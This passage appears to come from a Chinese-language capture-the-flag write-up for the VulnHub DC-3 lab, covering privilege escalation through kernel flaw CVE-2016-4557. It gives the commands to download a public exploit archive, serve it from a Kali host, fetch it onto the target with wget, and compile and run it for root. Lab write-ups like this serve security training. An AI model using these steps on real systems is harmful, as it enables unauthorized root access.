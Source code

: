 存在提权漏洞 CVE-2016-4557

找个 EXP 用用
```bash
apt install -y libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

EXP 传给靶机,kali 启个 web
```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行
```
wget 192.168.141.134/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC3/19.png)
